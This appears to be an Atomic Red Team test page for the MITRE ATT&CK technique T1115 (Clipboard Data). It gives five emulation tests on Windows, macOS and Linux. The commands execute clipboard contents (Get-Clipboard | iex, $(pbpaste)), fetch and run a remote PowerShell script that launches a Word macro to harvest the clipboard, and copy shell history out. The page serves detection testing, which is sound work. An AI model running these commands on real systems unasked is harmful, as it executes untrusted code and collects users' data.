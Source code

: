 # T1115 - Clipboard Data
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1115)
<blockquote>Adversaries may collect data stored in the clipboard from users copying information within or between applications. 

For example, on Windows adversaries can access clipboard data by using <code>clip.exe</code> or <code>Get-Clipboard</code>.(Citation: MSDN Clipboard)(Citation: clip_win_server)(Citation: CISA_AA21_200B) Additionally, adversaries may monitor then replace users’ clipboard with their data (e.g., [Transmitted Data Manipulation](https://attack.mitre.org/techniques/T1565/002)).(Citation: mining_ruby_reversinglabs)

macOS and Linux also have commands, such as <code>pbpaste</code>, to grab clipboard contents.(Citation: Operating with EmPyre)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Utilize Clipboard to store or execute commands from](#atomic-test-1---utilize-clipboard-to-store-or-execute-commands-from)

- [Atomic Test #2 - Execute Commands from Clipboard using PowerShell](#atomic-test-2---execute-commands-from-clipboard-using-powershell)

- [Atomic Test #3 - Execute commands from clipboard](#atomic-test-3---execute-commands-from-clipboard)

- [Atomic Test #4 - Collect Clipboard Data via VBA](#atomic-test-4---collect-clipboard-data-via-vba)

- [Atomic Test #5 - Add or copy content to clipboard with xClip](#atomic-test-5---add-or-copy-content-to-clipboard-with-xclip)


<br/>

## Atomic Test #1 - Utilize Clipboard to store or execute commands from
Add data to clipboard to copy off or execute commands from.

**Supported Platforms:** Windows


**auto_generated_guid:** 0cd14633-58d4-4422-9ede-daa2c9474ae7






#### Attack Commands: Run with `command_prompt`! 


```cmd
dir | clip
echo "T1115" > %temp%\T1115.txt
clip < %temp%\T1115.txt
```

#### Cleanup Commands:
```cmd
del %temp%\T1115.txt >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Execute Commands from Clipboard using PowerShell
Utilize PowerShell to echo a command to clipboard and execute it

**Supported Platforms:** Windows


**auto_generated_guid:** d6dc21af-bec9-4152-be86-326b6babd416






#### Attack Commands: Run with `powershell`! 


```powershell
echo Get-Process | clip
Get-Clipboard | iex
```






<br/>
<br/>

## Atomic Test #3 - Execute commands from clipboard
Echo a command to clipboard and execute it

**Supported Platforms:** macOS


**auto_generated_guid:** 1ac2247f-65f8-4051-b51f-b0ccdfaaa5ff






#### Attack Commands: Run with `bash`! 


```bash
echo ifconfig | pbcopy
$(pbpaste)
```






<br/>
<br/>

## Atomic Test #4 - Collect Clipboard Data via VBA
This module copies the data stored in the user's clipboard and writes it to a file, $env:TEMP\atomic_T1115_clipboard_data.txt

**Supported Platforms:** Windows


**auto_generated_guid:** 9c8d5a72-9c98-48d3-b9bf-da2cc43bdf52





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | string | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Set-Clipboard -value "Atomic T1115 Test, grab data from clipboard via VBA"
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1115\src\T1115-macrocode.txt" -officeProduct "Word" -sub "GetClipboard"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\atomic_T1115_clipboard_data.txt" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #5 - Add or copy content to clipboard with xClip
Utilize Linux Xclip to copy history and place in clipboard then output to a history.txt file. Successful execution will capture history and output to a file on disk.

**Supported Platforms:** Linux


**auto_generated_guid:** ee363e53-b083-4230-aff3-f8d955f2d5bb






#### Attack Commands: Run with `sh`! 


```sh
apt install xclip -y
history | tail -n 30 | xclip -sel clip
xclip -o > history.txt
```






<br/>
